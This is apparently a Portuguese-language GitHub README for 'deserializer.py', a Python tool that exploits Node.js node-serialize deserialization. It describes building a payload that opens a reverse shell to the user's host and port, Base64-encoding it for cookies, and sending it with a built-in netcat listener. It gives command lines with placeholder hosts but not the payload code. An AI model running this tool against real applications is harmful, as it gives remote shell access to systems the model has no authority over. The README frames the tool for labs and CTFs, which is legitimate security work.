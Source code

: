 # 🧬 deserializer.py

Ferramenta de exploração para **Node.js Deserialization (node-serialize)** com suporte à execução automatizada de payloads **Reverse Shell**.

Este script foi feito para **gerar, codificar e opcionalmente enviar automaticamente** um payload malicioso para aplicações Node.js vulneráveis à deserialização. Ele suporta envio via JSON direto no corpo da requisição ou através de cookies.

> ✅ Ideal para testes em ambientes controlados, labs e CTFs.  
> ⚠️ **Uso exclusivamente educacional e autorizado!**

---

## 🚀 Funcionalidades

- Geração de payload malicioso com shell reversa (`/bin/sh`) usando `node-serialize`.
- Codificação automática em Base64 para uso em cookies.
- Envio automático do payload com listener embutido.
- Suporte ao envio via **JSON** ou **Cookie**.
- Uso simples por linha de comando com parâmetros.

---

## 📦 Requisitos

- Python 3.6+
- `requests` (`pip install requests`)
- `netcat` (`nc`) instalado no sistema

---

## 🧠 Como funciona

O script gera um payload com a tag `_$$ND_FUNC$$_`, usada em exploits de `node-serialize`, onde uma função JavaScript é deserializada e executada no backend Node.js. Ao ser executado, ele conecta ao seu IP e porta definidos, abrindo uma shell remota.

---

## 🛠️ Uso

### Geração simples do payload

    python3 deserializer.py <LHOST> <LPORT>

### Envio automático já com a reverse shell + tipo de payload para cookie:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --cookie

### Envio automático já com a reverse shell + tipo de payload para json:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --json

